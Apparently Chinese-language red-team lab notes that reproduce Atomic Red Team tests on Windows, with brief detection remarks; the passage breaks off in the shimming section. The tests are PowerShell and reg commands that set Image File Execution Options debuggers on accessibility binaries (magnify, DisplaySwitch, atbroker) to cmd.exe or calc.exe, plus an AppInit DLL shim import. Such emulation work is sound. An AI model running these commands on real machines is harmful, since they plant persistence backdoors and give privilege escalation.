 删除
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /f
```
检测就是监控那个svchost进程的process create操作

win10上成功复现
###### 测试6 Attaches Command Prompt As Debugger To Process - DisplaySwitch
投影
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
```
检测就是监控那个svchost进程的process create操作

win10上成功复现
###### 测试7 Attaches Command Prompt As Debugger To Process - AtBroker
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\atbroker.exe"
$Value = "C:\windows\system32\calc.exe"
$Name = "Debugger"
New-Item -Path $registryPath -Force | Out-Null
New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
```
检测就是监控那个svchost进程的process create操作

win10上成功复现
### T1103 - AppInit DLLs
AppInit_Dlls键值位于注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows or HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows`下面，相对于其他的注册表启动项来说，这个键值的特殊之处在于任何使用到User32.dll 的EXE、DLL、OCX等类型的PE文件都会读取这个地方，并且根据约定的规范将这个键值下指向的DLL文件进行加载，加载的方式是调用 LoadLibrary。红队可以使用它加载恶意的dll从而实现persistence和privilege escalation

**AppInit DLL方法在win8和之后的版本已经不能使用了(当secure boot开启的时候)**
###### 测试1 Install AppInit Shim
```
reg.exe import T1103.reg
```
检测的话,查看注册表就行

win10上成功复现
### T1138 - Application Shimming
The Microsoft Windows Application Compatibility Infrastructure/Framework(应用兼容基础框架)是用来做操作系统代码向下兼容的,例如它允许开发者修改为windowsxp创建的应用程序以便它在win10上继续使用.shims在操作系统和应用之间充当一个缓冲的角色,当程序运行的时候,shims 缓存决定程序是否需要shim database (.sdb),如果需要,shim将使用Hooking技术(https://attack.mitre.org/techniques/T1179)重定向代码以便与操作系统的通信,shims的默认安装位置如下
- `%WINDIR%\AppPatch\sysmain.sdb`
- `hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb`
databases存储的位置如下
- `%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom`
- `hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom`

